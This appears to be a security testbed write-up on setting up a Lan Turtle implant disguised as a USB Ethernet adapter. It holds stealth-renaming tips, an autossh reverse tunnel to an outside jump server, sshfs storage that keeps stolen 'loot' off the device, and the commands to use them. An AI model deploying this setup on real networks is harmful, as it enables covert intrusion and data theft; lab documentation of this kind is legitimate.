 # Lan Turtle

To represent a physical implant that provides persistent remote access, we selected the [Lan Turtle by Hak5](https://hak5.org/products/lan-turtle). This device is designed to look like a USB Ethernet adapter (or a USB-to-Ethernet KVM) but is really an embedded Linux system that can provide a number of simple capabilities. The unit we had also contained the 3G modem, but we elected not to use it for this setup.

## Configuration

In theory, updating the device to the latest firmware should be easy and straight-forward. It isn't... at least not for me, and a number of others who (helpfully) posted their struggles online.

You should be able to use the `turtle` command, enter the configuration menu, check for updates, apply, reboot, and be golden. The problem I faced, however, was that when I did this, I ended up with a device that would no longer pull modules, check for updates, anything.

After much debugging and gnashing of teeth, it became clear that the issue was that the date/time on the device was out of sync, and therefore SSL validation would fail. Some suggested simply disabling SSL cert validation, but this seems unwise on a security-focused device. Making things further frustrating, I learned that AT&T blocks NTP packets due to network threats, so the configured-by-default NTP client on the turtle fails to obtain an updated time value.

What I ended up figuring out, is as follows:

```bash
# ssh into the turtle, exit the configuration utility 
# and end up at the shell

# update the software listing
$ opkg update

# install a non-NTP-based time update utility
$ opkg install htpdate

# force the time to be updated (using the webserver at 1.1.1.1;
# could be really any valid site)
$ htpdate -s 1.1.1.1
```

Once this is done, it is not a bad idea to add this last command (`htpdate -s 1.1.1.1`) into `/etc/rc.local` so it gets executed on each system start. 

!!! warning
    It might make most sense to change this to daemon mode so it runs all the time

    ```
    htpdate -D 1.1.1.1
    ```

After following all of these steps, I was able to successfully update the device to firmware version `6.2-stable`. For reference, additional firmware files and details are available here: https://downloads.hak5.org/turtle. 

Another general configuration step to assist with the _stealthy-ness_ of the activities, is to edit `/etc/config/system` and change the `hostname` to something other than `turtle`. Making it something less obvious may help hide it longer (e.g. `usbeth0`).

Additionally, I deployed the ssh public key from my attacker machine to the turtle to make subsequent logins easier.

```bash
ssh-copy-id -i ~/.ssh/id_rsa.pub root@172.16.84.1
```

The next configuration activities included installing and configuring the modules. 

### Modules

From within the `turtle` shell, you can choose `Modules` and then select the `modulemanager` module. The `start` and `enable` functions do not really apply for this module, but `Configure` does. From the configuration manager, you choose to update the directory, agree to connect to `lanturtle.com` and then browse/select the modules you'd like to install. For this instance, I chose to keep things simple and just installed the following: `autossh`, `keymanager`, and `sshfs`. Once these have been installed, you can step back a few screens to the main _Modules_ window where you will see and be able to configure the installed modules.

### KeyManager

This module is another that you simply configure, and the only thing I needed to do here was the `generate_key` command. This is just a UI-wrapper on `ssh-keygen`. Once this is done, I needed to transfer the public key (`/.ssh/id_rsa.pub`) to the account on the cloud-hosted jump server. 

!!! Note
    On the jump server, I had previously configured an account (`turtle`) that would be used by this device. Additionally, if the jump server allowed password-based SSH connections, the `KeyManager` module would have allowed me to deploy my key directly. However, since I am only allowing keys, I have to shuffle it through another account and cannot use the automated scripts.

### AutoSSH

The `autossh` module maintains persistent SSH shells to another server and can forward local ports to the remote server for the purpose of enabling reverse tunnling through the established shell. This is a more _normal_ module, so we begin by configuring it:

- user@host: `turtle@george.bitpredator.com`
- Port: `22`
- Remote Port: `2222`
- Local Port: `22`

The last two lines expose port `22` on the turtle's local network interface to port `2222` on the host it is going to tunnel to (in this case, `george.bitpredator.com`). We submit these settings and then select `enable` to have it start each time the device boots up, and finally we click `start` to get it up and running.

!!! Warning
    In prior versions, the instructions up to this point would have worked just fine. However, the last `start` command now fails because my jump server host is not in the `known_hosts` file. In an effort to be maybe a little too smart, this is now bundled into the `copy_key` configuration option of the `keymanager` module, which won't work for me because of my password-less restriction on the jump server. I simply exited to the shell, manually established an SSH connection to my jump server which caused bash to prompt me to update `authorized_keys`. This being done (and confirming that the connection worked), I was able to return to the turtle shell (`turtle`) and start this module.

### SSHFS

The last module to configure is `sshfs`. This simply mounts a remote file system as if it were local. In this case, it allows us to expand the rather meager storage of the turtle to whatever amount of disk is available in my jump server. The configuration of this module is rather simple:

- Host: `george.bitpredator.com`
- Port: `22`
- User: `turtle`
- Path: `/home/turtle`

This will map the local `/sshfs` directory on the turtle to the `/home/turtle` directory on the jump server. Now we submit the configuration, enable it, and then start it.


## Deployment

In the testbed, the turtle is plugged into a USB port on `Lap01` for the purposes of providing power. It could theoretically also provide some MITM capabilities for this machine, but we are not using them. The ethernet jack is connected directly to the primary switch and it serves as a remotely-accesible beachhead. 

```mermaid
graph LR
  A[Router] --> B[Switch];
  B --> C[Lap01];
  B --> D[Turtle];
  C --> D;
  B --> E[Lap02];
```

<figure>
  <img src="../../assets/images/turtle.jpg" width="400" />
  <figcaption>Deployed LanTurtle</figcaption>
</figure>


## Use

With the device configured and deployed into the test bed, it will provide me a remotely-accessible shell any time I need it. The following demonstrates its use:

```bash
# Connect from my attacker machine to my jump server
$ ssh root@george.bitpredator.com

# copy my local ssh key (on jump server) to turtle
$ ssh-copy-id -i .ssh/id_rsa.pub root@localhost -p 2222

# Connect via the reverse ssh tunnel into the turtle/target env
$ ssh root@localhost -p 2222

# write files to turtle's "local" storage, remapped to jump server
$ touch /sshfs/bubb02
```

!!! tip
    One key feature of using `sshfs` on the turtle as the storage location for "loot", is that if the device happens to be found and/ore disconnected by a local user/network admin, anything that you had gathered will not actually reside on the turtle, but instead on the drive of the jump server which remains in your control
